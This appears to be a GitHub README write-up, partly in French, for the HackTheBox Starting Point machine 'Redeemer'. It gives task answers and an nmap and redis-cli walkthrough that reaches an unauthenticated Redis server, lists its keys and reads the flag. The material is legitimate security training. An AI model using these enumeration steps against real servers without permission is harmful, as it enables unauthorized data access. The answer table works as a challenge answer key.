


```
     /\_____/\
    (  ^   ^  )   ██╗  ██╗ █████╗  ██████╗██╗  ██╗████████╗██╗  ██╗███████╗██████╗  ██████╗ ██╗  ██╗
    ( (  ω  ) )   ██║  ██║██╔══██╗██╔════╝██║ ██╔╝╚══██╔══╝██║  ██║██╔════╝██╔══██╗██╔═══██╗╚██╗██╔╝
     \ ~~~~~ /    ███████║███████║██║     █████╔╝    ██║   ███████║█████╗  ██████╔╝██║   ██║ ╚███╔╝
      )     (     ██╔══██║██╔══██║██║     ██╔═██╗    ██║   ██╔══██║██╔══╝  ██╔══██╗██║   ██║ ██╔██╗
     (  ~~~  )    ██║  ██║██║  ██║╚██████╗██║  ██╗   ██║   ██║  ██║███████╗██████╔╝╚██████╔╝██╔╝ ██╗
      `~~~~~´     ╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝   ╚═╝   ╚═╝  ╚═╝╚══════╝╚═════╝  ╚═════╝ ╚═╝  ╚═╝
```
```
╔══════════════════════════════════════════════════════════════════════════╗
║                                                                        ║
║   ██████╗ ███████╗██████╗ ███████╗███████╗███╗   ███╗███████╗██████╗   ║
║   ██╔══██╗██╔════╝██╔══██╗██╔════╝██╔════╝████╗ ████║██╔════╝██╔══██╗  ║
║   ██████╔╝█████╗  ██║  ██║█████╗  █████╗  ██╔████╔██║█████╗  ██████╔╝  ║
║   ██╔══██╗██╔══╝  ██║  ██║██╔══╝  ██╔══╝  ██║╚██╔╝██║██╔══╝  ██╔══██╗  ║
║   ██║  ██║███████╗██████╔╝███████╗███████╗██║ ╚═╝ ██║███████╗██║  ██║  ║
║   ╚═╝  ╚═╝╚══════╝╚═════╝ ╚══════╝╚══════╝╚═╝     ╚═╝╚══════╝╚═╝  ╚═╝  ║
║                                                                        ║
║              [ HackTheBox — Starting Point ]                           ║
║                                                                        ║
╚══════════════════════════════════════════════════════════════════════════╝
```
---
## 🔑 Machine Info
```
┌──────────────────────────────────────────────────┐
│  Name       : Redeemer                           │
│  OS         : Linux                              │
│  Difficulty : Very Easy                          │
│  Rating     : ⭐ 4.6/5 (750)                    │
│  XP Reward  : 150 XP                             │
│  Theme      : Redis / In-Memory Database         │
│  Player #   : 312646                             │
└──────────────────────────────────────────────────┘
```
---
## 🎯 Objective
> Exploiter un serveur **Redis** exposé sans authentification pour énumérer la base de données en mémoire et récupérer le flag.
---
## 📝 Tasks & Answers
```
┌────┬────────────────────────────────────────────────────────────────────────────────┬─────────────────────────┐
│ #  │ Question                                                                       │ Answer                  │
├────┼────────────────────────────────────────────────────────────────────────────────┼─────────────────────────┤
│ 01 │ Which TCP port is open on the machine?                                         │ 6379                    │
│ 02 │ Which service is running on the port that is open?                              │ redis                   │
│ 03 │ What type of database is Redis?                                                │ In-memory Database      │
│ 04 │ Which command-line utility is used to interact with the Redis server?           │ redis-cli               │
│ 05 │ Which flag is used with redis-cli to specify the hostname?                     │ -h                      │
│ 06 │ Which command is used to obtain info and statistics about the Redis server?    │ info                    │
│ 07 │ What is the version of the Redis server on the target?                         │ 5.0.7                   │
│ 08 │ Which command is used to select the desired database in Redis?                 │ select                  │
│ 09 │ How many keys are present inside the database with index 0?                    │ 4                       │
│ 10 │ Which command is used to obtain all the keys in a database?                    │ keys *                  │
└────┴────────────────────────────────────────────────────────────────────────────────┴─────────────────────────┘
```
---
## 🔍 Walkthrough
### Step 1 — Nmap Scan
```bash
nmap -p- -sV <TARGET_IP>
```
> Scan complet des ports pour identifier le service **Redis** sur le port **6379**.
📸 **Screenshot :**

---
### Step 2 — Connect with redis-cli
```bash
redis-cli -h <TARGET_IP>
```
> Connexion au serveur Redis sans authentification — aucun mot de passe requis ✅
📸 **Screenshot :**

---
### Step 3 — Enumerate the Redis Server
```bash
<TARGET_IP>:6379> info
```
> Obtenir les informations du serveur — **Redis version 5.0.7**
```bash
<TARGET_IP>:6379> select 0
```
> Sélectionner la base de données d'index **0**.
```bash
<TARGET_IP>:6379> keys *
```
> Lister toutes les clés — **4 clés** trouvées dans la base.
📸 **Screenshot :**

---
### Step 4 — Get the Flag 🚩
```bash
<TARGET_IP>:6379> get flag
```
> Récupérer la valeur de la clé **flag** contenant le root flag.
📸 **Screenshot :**

---
## 🏁 Result
```
╔═══════════════════════════════════════════╗
║                                           ║
║   🚩  ROOT FLAG OWNED  🚩                ║
║                                           ║
║   Congratulations H4concef!               ║
║   You are player #312646                  ║
║   to have solved Redeemer.                ║
║                                           ║
╚═══════════════════════════════════════════╝
```
---
## 📚 Concepts Learned
```
┌─────────────────────────┬──────────────────────────────────────────────────────┐
│ Concept                 │ Description                                          │
├─────────────────────────┼──────────────────────────────────────────────────────┤
│ Redis                   │ In-memory key-value database — port 6379            │
│ redis-cli               │ CLI tool to interact with Redis servers              │
│ No Authentication       │ Redis exposed without password — critical misconfig  │
│ Key Enumeration         │ Using "keys *" to list all keys in a database        │
│ In-memory DB            │ Data stored in RAM for fast access, not on disk      │
│ Nmap                    │ Network scanner for port & service enumeration       │
└─────────────────────────┴──────────────────────────────────────────────────────┘
```
---
## 🛠️ Tools Used
```
• nmap       — Port & service scanner
• redis-cli  — Redis command-line client
• ping       — ICMP connectivity test
```
---
## 📂 Repository Structure
```
REDEEMER/
├── README.md
└── IMG/
    ├── nmap scan .png
    ├── redis-cli.png
    ├── enum redis.png
    └── flag.png
```
---
## 👤 Author
```
   ╔═══════════════════════════════╗
   ║  H4concef — Player #312646   ║
   ║  HackTheBox Starting Point   ║
   ╚═══════════════════════════════╝
```
> *Writeup réalisé dans le cadre du parcours Starting Point de HackTheBox.*
